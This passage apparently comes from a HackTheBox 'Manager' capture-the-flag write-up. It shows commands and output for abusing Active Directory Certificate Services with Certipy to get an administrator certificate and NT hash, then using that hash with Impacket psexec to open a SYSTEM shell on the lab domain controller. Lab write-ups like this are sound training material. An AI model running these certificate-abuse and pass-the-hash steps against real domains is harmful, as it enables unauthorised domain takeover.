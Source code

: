 ``` bash
$ certipy ca -ca 'manager-DC01-CA' -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Finally we retrieve the certificate
``` bash
$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -retrieve 20
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

To finally be able to login as administrator, we can get the administrator hashes by using the obtained certificate and private key

``` bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

With the obtained hash, we can login as administrator

``` bash
$ psexec.py manager.htb/administrator@manager.htb -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -dc-ip 10.10.11.236
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file tSHvDKPA.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service Cuaw on manager.htb.....
[*] Starting service Cuaw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
